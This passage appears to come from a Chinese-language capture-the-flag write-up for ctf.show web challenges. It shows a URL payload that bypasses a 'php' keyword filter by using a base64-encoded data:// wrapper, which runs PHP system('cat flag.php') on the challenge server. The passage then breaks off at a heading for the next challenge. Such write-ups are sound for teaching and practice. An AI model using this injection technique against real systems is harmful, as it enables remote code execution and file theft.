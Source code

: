 <figure><img src="../.gitbook/assets/image 25.png" alt=""><figcaption></figcaption></figure>

把php过滤了，我们就可以用data://的另一种base64加密的方式的语句。

```php
http://7737a3de-11a3-444b-ae4f-83ede1eaa283.challenge.ctf.show/?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCJjYXQgZmxhZy5waHAiKTs/Pg==
```

得到结果

<figure><img src="../.gitbook/assets/image 26.png" alt=""><figcaption></figcaption></figure>

***

## <mark style="color:blue;background-color:orange;">（11）Web 39</mark>
